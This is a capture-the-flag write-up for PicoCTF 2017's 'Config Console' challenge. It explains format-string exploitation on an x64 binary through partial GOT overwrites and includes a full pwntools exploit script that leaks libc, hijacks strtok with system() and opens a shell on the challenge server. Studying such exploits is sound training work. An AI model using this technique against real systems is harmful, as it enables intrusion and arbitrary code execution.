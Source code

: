 ### Solved by Swappage

Config console was a binary exploitation problem focused on format string attacks, it was a.. let's say.. quite academic problem,
a stadard example of how you would exploit a format string bug, if it wasn't for single, simple fact... IT WAS COMPILED FOR x64 ARCHITECTURE.

the fact that the binary was compiled as an x64 architecture transformed the problem from a simple format string exercise into quite a nightmare, because of a simple reason:

![](/images/2017/PicoCTF/Config_Console/1.jpg)

So, how to deal with all of this? because how printf() works, we cant use null bytes in our format string payloads, but at the same time, because of how intel x64 architecture works, the canonical address range goes from 0x00 to 0xffffffffffff, meaning that a p64() of every input we provide as address will ALWAYS contain a null byte!.

Oh, and i almost forgot, the application was made to exit after every execution, so we had to find a way to prevent the program from exiting if we wanted to

- leak a libc address first
- redirect the execution

The way i managed to exploiot this was to heavly relay on partial overwrites using positional and half formatting strings.

The scenario for the exploitation was the following

- in the first stage i wanted to overwrite the address of exit@GOT with the address of loop(), this would prevent the application for exiting after the first cycle.
- then use a format string to leak glibc base address
- calculate the address of system() in libc
- overwrite another address in the GOT
- jump to that function to get a shell.

Here is the exploit, that i think is more explainatory then everything i can say.

The first part was easy, to prevent the nullbyte problem i simply put the address at the end, so thanks to the architecture endianness the nullbyte would end up terminating the buffer anyway

Leaking the libc was also easy, because an address was at the third position in the format string leak.

the most annoying part of all the challenge was the fact that i couldn't overwrite an address in the GOT with the pointer to system() in a single run, to fix this i had to forge 2 pointers on the stack, always taking care of the null bytes, and then do a partial overwrite, i decided to overwrite strtok() with system because a user supplied input was directly passed to the function, that way when strtok() was invoked, it was enaugh to send a line containing /bin/sh to get a shell.

The exploit code is fairly commented, so i think it doesn't need any further explanation.

```python
#!/usr/bin/python

from pwn import *
import sys

# address of exit@GOT
addr = 0x601258

# address of printf@GOT
# i don't use this anymore.
printf = 0x601238

#address of loop()
loop_addr = 0x4009bd

#libc address in %3$p
#libc base @ %3$p - 0xdb620


# stage 1: cause the app to never exit by overwriting exit@GOT with loop()
payload = "e "
payload += "%" + str(loop_addr - len(payload) + 1) + "c"
payload += " %17$n "
payload += "aaaaaa"
payload += p64(addr)
payload += "\n"

# stage 2: leak the libc base address
payload2 = "e "
payload2 += "%3$p"
payload2 += "\n"

#r = remote("192.168.1.90", 1337)
r = remote("shell2017.picoctf.com", 42132)

r.recvuntil(": ")
r.sendline(payload)
r.recvuntil("Config action: ")

r.sendline(payload2)
r.recvuntil("Config action: ")

#
# offsets and such.
#
# on debian:
# base = $3$p - 0xdbc00
# 1shot @ base + 0x41374
# system() @ base + 0x41490
#

address = r.recvuntil("Config action: ")
address = address.split("!\n")[1].split("Config")[0]
log.info("leaked address: " + address)
libc_base = int(address, 16) - 0xdbc00
log.info("Libc basse: " + str(hex(libc_base)))
system_addr = libc_base + 0x41490
system_address = hex(system_addr)
log.info("System address: " + str(system_address))

#
# overwriting in one shot doesn't work for some reasons
# we need to do partial overwrite of strtok@GOT with address of system()
# LSDB HSB and bullshit..
antani = str(system_address)
lsb = "0x" + antani[-6:]
hsb = antani[:8]

log.info("hsb: " + hsb)
log.info("lsb: " + lsb)

lsb = int(lsb,16)
hsb = int(hsb, 16)

diff = hsb - lsb

#
# the exploit isn't 100% reliable. I didn't bother to take a negative result in account. if it happens just close and try again
# this is because I'm too lazy to do the maths for the input bytes for the fmt
#
if diff < 0:
	log.error("lsb < hsb, exploit won't work this time, abarting, just try again.")
	r.close()
	exit()

log.info("diff: " + str(hex(hsb - lsb)))

# setting some addresses on the stack
# here we put pointers to strtok@GOT and strtok@GOT+3 on the stack so
# we can access them via format string for overwriting
#
payload4 = "l "
payload4 += "aaaaaa"
payload4 += p64(0x601253) # %295$p

payload5 = "p "
payload5 += "aaaaaa"
payload5 += p64(0x601250) # %155$p

#
# the final stage: overwrite strtok@GOT with system() and pass /bin/sh as argument
#
payload6 = "e "
payload6 += "%" + str(lsb) +"c"
payload6 += "%155$n"
payload6 += "%" + str(hsb-lsb) + "c"
payload6 += "%295$n"

log.info("Ready to send the final payload: " + payload6)
log.info("hit enter to continue, this will return lot of garbage output before popping a shell")
raw_input()

r.recv()
r.sendline(payload4)
r.recv()
r.sendline(payload5)
r.recv()
r.sendline(payload6)
r.recvuntil(": ")
r.sendline("/bin/sh")
r.interactive()

```
